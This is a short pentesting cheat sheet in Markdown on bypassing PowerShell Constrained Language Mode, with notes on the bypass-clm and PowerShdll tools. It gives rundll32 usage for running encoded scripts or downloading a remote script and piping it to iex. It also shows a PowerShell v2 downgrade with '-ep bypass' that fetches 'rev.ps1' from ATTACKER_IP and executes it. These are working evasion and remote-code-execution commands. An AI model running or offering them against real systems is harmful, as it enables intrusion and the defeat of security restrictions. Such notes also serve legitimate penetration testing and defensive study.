 #  Bypassing Contrained Powershell

#### Check Versioning - [[Powershell-versions]]

#### Default powershell locations in a Windows system.

```
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
```

#### Powershell Constrained Mode

Check if we are in a constrained mode: `$ExecutionContext.SessionState.LanguageMode`

#### bypass-clm - PowerShell Constrained Language Mode Bypass
[bypass-clm - PowerShell Constrained Language Mode Bypass](https://github.com/calebstewart/bypass-clm)


#### PowerShdll - Powershell with no Powershell.exe via DLL
[PowerShdll - Powershell with no Powershell.exe via DLL's](https://github.com/p3nt4/PowerShdll) Run PowerShell with rundll32. Bypass software restrictions. Run PowerShell with dlls only and does not require access to powershell.exe as it uses powershell automation dlls. PowerShdll can be run with: rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe, regsvr32.exe or as a standalone executable.

Requires:
-   .Net v3.5 for dll mode.
-   .Net v2.0 for exe mode.

```powershell
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -h      Display this message
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default)
rundll32 PowerShdll,main -i      Start an interactive console in this console
# If you do not have an interractive console, use -n to avoid crashes on output

# Run base64 encodeed script
rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
# download and run script
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```

#### Other bypasses

```powershell
PS > &{ whoami }
powershell.exe -v 2 -ep bypass -command "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/rev.ps1')"
```

## References

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.mdl)